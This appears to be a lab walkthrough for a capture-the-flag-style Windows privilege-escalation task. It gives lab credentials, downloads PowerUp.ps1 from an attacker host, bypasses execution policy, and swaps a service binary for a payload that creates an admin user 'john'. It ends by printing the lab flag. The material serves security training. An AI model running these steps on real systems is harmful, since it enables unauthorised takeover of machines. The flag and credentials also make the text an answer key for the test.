 Questions 2 
Connect to CLIENTWK221 (VM #2) via RDP as user milena with the password MyBirthDayIsInJuly1!. Find a service in which milena can replace the service binary. Get an interactive shell as user running the service and find the flag on the desktop.

HINT
Import PowerUp.ps1 to identify a service to modify.
Replace the service's executable by renaming with a malicious binary.
Restart the service to trigger the malicious binary and gain shell access.
The flag is on roy user's desktop.

xfreerdp /u:milena /p:MyBirthDayIsInJuly1! /v:192.168.178.221

# Open powershell 
# Lets identify the ModifiablePath using Powerup.ps1
PS C:\Users\milena> iwr -uri http://192.168.45.207/PowerUp.ps1 -Outfile PowerUp.ps1
PS C:\Users\milena> powershell -ep bypass
PS C:\Users\milena> . .\PowerUp.ps1
PS C:\Users\milena> Get-ModifiableServiceFile
...
ServiceName       : BackupMonitor
ModifiableFile    : C:\BackupMonitor\BackupMonitor.exe
StartName         : .\roy
AbuseFunction     : Install-ServiceBinary -Name 'BackupMonitor'
CanRestart        : True
...
PS C:\Users\milena> install-servicebinary -Name 'BackupMonitor'
Set-Content : The process cannot access the file 'C:\BackupMonitor\BackupMonitor.exe' because it is being used by
another process.

# We identify that the service is running so we cannot exploit 
PS C:\Users\milena> Stop-Service BackupMonitor
PS C:\Users\milena> install-servicebinary -Name 'BackupMonitor'
BackupMonitor C:\BackupMonitor\BackupMonitor.exe net user john Password123! /add && timeout /t 5 && net localgroup A...

# Now we can start the service again
PS C:\Users\milena> start-service BackupMonitor
start-service : Failed to start service 'BackupMonitor (BackupMonitor)'.

# Service had failed to start, let check is our code exploit successfully
PS C:\Users\milena> net user
...
john
...

# Change to john user
start-process PowerShell -verb runas
PS C:\Users\roy\Desktop> type flag.txt
OS{48a02a9d3a7d3c0daabc11af1af8f475}

